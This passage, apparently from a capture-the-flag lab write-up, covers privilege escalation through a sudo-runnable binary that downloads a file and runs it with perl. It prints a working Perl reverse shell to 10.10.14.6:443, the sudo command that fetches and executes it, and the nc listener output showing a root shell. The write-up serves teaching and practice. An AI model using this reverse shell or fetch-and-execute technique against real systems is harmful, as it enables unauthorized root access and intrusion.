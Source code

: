 This code is taking a weird route to building a command string that looks like `perl ./[arg2]`. It’s running whatever was downloaded with `perl`. Then it cleans up, including removing that file, and returns.

This file doesn’t make a lot of sense unless I view it as a piece of malware that’s under analysis by this forensics firm.

### Execution

#### Obvious [Option 1]

To get a shell, I’ll write a simple Perl reverse shell (based on [revshells.com](https://www.revshells.com/)):

```

use Socket;
$i="10.10.14.6";
$p=443;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))) {
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("sh -i");
}

```

Now I simply host that on a Python webserver run `binary` with the URL pointing to it:

```

smorton@investigation:~$ sudo binary 10.10.14.6/shell.pl lDnxUysaQn
Running...

```

It fetches from my server:

```
10.10.11.197 - - [18/Apr/2023 16:07:48] "GET /shell.pl HTTP/1.1" 200 -

```

And there’s a connection at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.197 40802
# id
uid=0(root) gid=0(root) groups=0(root)

```
